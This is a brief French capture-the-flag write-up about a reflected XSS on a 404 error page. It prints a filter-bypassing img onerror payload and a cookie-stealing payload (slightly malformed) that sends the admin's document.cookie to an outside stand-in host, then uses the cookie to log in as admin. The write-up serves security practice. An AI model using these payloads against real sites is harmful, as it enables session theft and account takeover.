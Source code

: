 En regardant de plus près le site nous observons un formulaire à envoyer à l'admin, on peut donc se douter qu'il peut s'agir d'une XSS.
En allant voir la page de l'erreur 404 le site nous affiche le nom de la page qui n'existe pas, et si nous mettions du code javascript pour qu'il exécute en voulant l'afficher sur la page d'erreur ?
On essaye avec un simple <script>alert()</script> mais le site le détecte.
On essaye alors avec \<img src=x onerror="alert()"\>. BINGO ça marche !!!
C'est parti pour faire une redirection \<img src= onerror="document.location'siteweb.com?cookie='+document.cookie"\>, on encode le tout en URL encode
On attend et le cookie est là, on se connecte avec en tant qu'admin et on flag
